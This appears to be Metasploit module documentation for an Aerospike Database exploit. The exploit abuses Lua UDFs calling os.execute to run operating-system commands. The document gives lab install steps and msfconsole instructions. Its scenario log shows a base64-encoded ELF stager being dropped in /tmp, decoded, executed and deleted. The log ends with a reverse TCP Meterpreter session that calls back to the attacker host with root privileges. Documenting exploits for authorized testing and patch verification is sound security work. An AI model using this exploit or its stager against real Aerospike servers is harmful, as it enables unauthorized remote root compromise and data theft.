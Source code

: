 ## Vulnerable Application

Aerospike Database versions before 5.1.0.3 permitted
user-defined functions (UDF) to call the `os.execute`
Lua function.

This module creates a UDF utilising this function to
execute arbitrary operating system commands with the
privileges of the user running the Aerospike service.

This module does not support authentication; however
Aerospike Database Community Edition does not enable
authentication by default.

This module has been tested successfully on Ubuntu
with Aerospike Database Community Edition versions
4.9.0.5, 4.9.0.11 and 5.0.0.10.


## Verification Steps

Download a vulnerable version of Aerospike Database Community Edition from:

* https://www.aerospike.com/artifacts/aerospike-server-community/

Decompress the compressed `.tgz` software installer archive file:

```
$ gunzip aerospike-server-community-5.0.0.10-ubuntu18.04.tgz
$ tar xvf aerospike-server-community-5.0.0.10-ubuntu18.04.tar
```

Install:

```
$ cd aerospike-server-community-5.0.0.10-ubuntu18.04
$ sudo ./asinstall
```

Start the `aerospike` service:

```
$ sudo service aerospike start
```

1. Start msfconsole
1. Do: `use exploit/linux/misc/aerospike_database_udf_cmd_exec`
1. Do: `set RHOSTS [IP]`
1. Do: `set target [target]`
1. Do: `set payload [payload]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`


## Options

### UDF_DIRECTORY

Directory where Lua UDF files are stored (Default: `/opt/aerospike/usr/udf/lua/`)


## Scenarios

### Aerospike Database Community Edition version 5.0.0.10 on Ubuntu 20.04 (x64)

```
msf > use exploit/linux/misc/aerospike_database_udf_cmd_exec 
[*] Using configured payload cmd/unix/reverse
msf exploit(linux/misc/aerospike_database_udf_cmd_exec) > set rhost 172.16.191.208
rhost => 172.16.191.208
msf exploit(linux/misc/aerospike_database_udf_cmd_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix Command
   1   Linux (Dropper)


msf exploit(linux/misc/aerospike_database_udf_cmd_exec) > set target 1
target => 1
msf exploit(linux/misc/aerospike_database_udf_cmd_exec) > set payload
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(linux/misc/aerospike_database_udf_cmd_exec) > set verbose true
verbose => true
msf exploit(linux/misc/aerospike_database_udf_cmd_exec) > set lhost 172.16.191.165 
lhost => 172.16.191.165
msf exploit(linux/misc/aerospike_database_udf_cmd_exec) > run

[*] Started reverse TCP handler on 172.16.191.165:4444 
[*] 172.16.191.208:3000 - Executing automatic check (disable AutoCheck to override)
[*] 172.16.191.208:3000 - Aerospike Database version 5.0.0.10
[+] 172.16.191.208:3000 - The target appears to be vulnerable.
[*] 172.16.191.208:3000 - Sending payload (123 bytes) ...
[*] 172.16.191.208:3000 - Generated command stager: ["echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1torBC/pWgCABFcieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/zqOkT.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/qXNWk' < '/tmp/zqOkT.b64' ; chmod +x '/tmp/qXNWk' ; '/tmp/qXNWk' & sleep 2 ; rm -f '/tmp/qXNWk' ; rm -f '/tmp/zqOkT.b64'"]
[*] 172.16.191.208:3000 - Creating UDF 'DpdWZwYHiuZvjods.lua' ...
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (976712 bytes) to 172.16.191.208
[*] 172.16.191.208:3000 - UDF 'DpdWZwYHiuZvjods.lua' removed successfully
[*] Meterpreter session 1 opened (172.16.191.165:4444 -> 172.16.191.208:55852) at 2020-12-05 09:09:27 -0500
[*] Transmitting intermediate stager...(106 bytes)
[*] 172.16.191.208:3000 - Command Stager progress - 100.00% done (773/773 bytes)

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : ubuntu.local
OS           : Ubuntu 20.04 (Linux 5.4.0-53-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```

